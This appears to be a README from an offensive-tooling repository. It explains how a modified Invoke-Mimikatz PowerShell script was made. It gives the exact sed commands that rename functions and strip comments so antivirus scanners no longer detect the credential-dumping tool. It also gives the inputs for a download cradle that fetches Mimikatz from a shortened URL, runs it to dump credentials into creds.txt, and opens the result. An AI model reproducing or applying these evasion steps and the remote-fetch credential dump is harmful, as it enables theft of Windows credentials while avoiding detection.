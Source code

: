 # Mimikatz

## Mi.ps1

Mi.ps1 is a modified version of Mimikatz which is available at https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1

I downloaded the file an modified it with the following commands:

<pre>
sed -i -e 's/Invoke-Mimikatz/Invoke-Mimidogz/g' Invoke-Mimikatz.ps1
sed -i -e '/<#/,/#>/c\\' Invoke-Mimikatz.ps1
sed -i -e 's/^[[:space:]]*#.*$//g' Invoke-Mimikatz.ps1
sed -i -e 's/DumpCreds/DumpCred/g' Invoke-Mimikatz.ps1
sed -i -e 's/ArgumentPtr/BirdIsTheWord/g' Invoke-Mimikatz.ps1
sed -i -e 's/CallDllMainSC1/UnceUnceUnce/g' Invoke-Mimikatz.ps1
sed -i -e "s/\-Win32Functions \$Win32Functions$/\-Win32Functions \$Win32Functions #\-/g" Invoke-Mimikatz.ps1
</pre>

At the end I renamed the file with:

<pre>
mv Invoke-Mimikatz.ps1 Mi.ps1
</pre>

This will change the bahivor of most AV scanners. The file will be no longer detected as maleware, but the execution will be still blocked when the code sucked in.

## MiLoading.ps1

Is a single command that can be run on powershell. It will pull a file from the internet containing Mimikatz and will execute it. The results will be printed into a txt file which will be opened by notepad. The commands was created by the Invoke-CradleCrafter (https://github.com/danielbohannon/Invoke-CradleCrafter). Another great tool to obfuscate the command and to execute Mimikatz is Invoke-Obfuscation (https://github.com/danielbohannon/Invoke-Obfuscation).

INPUTS:
<pre>
Url: http://bit.ly/L3g1tCrad1e
Path: Default_File_Path.ps1
PostCradleCommand: Invoke-Mimikatz -DumpCr > creds.txt; notepad creds.txt
</pre>
